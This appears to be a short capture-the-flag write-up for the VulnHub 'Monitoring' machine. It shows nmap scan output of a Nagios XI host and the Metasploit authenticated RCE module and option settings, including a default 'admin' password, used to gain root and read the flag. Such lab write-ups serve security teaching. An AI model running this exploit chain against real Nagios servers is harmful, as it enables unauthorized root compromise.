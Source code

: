 ```yaml
---
description: VulnHub Monitoring machine writeup
cover: ../.gitbook/assets/image.png
coverY: 0
---
```


# \[Easy] Monitoring

### Recon:

<pre class="language-c"><code class="lang-c">PORT    STATE SERVICE  VERSION
<strong>22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
</strong>| ssh-hostkey: 
|   2048 b88c40f65f2a8bf792a8814bbb596d02 (RSA)
|   256 e7bb11c12ecd3991684eaa01f6dee619 (ECDSA)
|_  256 0f8e28a7b71d60bfa62bdda36dd14ea4 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_sslv2: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-09-08T18:28:08
| Not valid after:  2030-09-06T18:28:08
| MD5:   20f0951f8eff1b69ef3f1b1efb4c361f
|_SHA-1: cc400ad760cf49591c92d9ab0f06106c18f66661
| tls-alpn: 
|_  http/1.1
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

</code></pre>

### Web

#### Homepage

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

#### Login page

<figure><img src="../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

### Exploitation

Use a <mark style="color:yellow;">`nagios_xi_plugins_check_plugin_authenticated_rce`</mark> module in Metasploit:

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Set options:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

```bash
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOSTS 192.168.125.136
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set SRVHOST tun0
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set PASSWORD admin
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LHOST tun0
```

Run and get root and flag by way <mark style="color:yellow;">`/root/proof.txt`</mark>:

<figure><img src="../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>
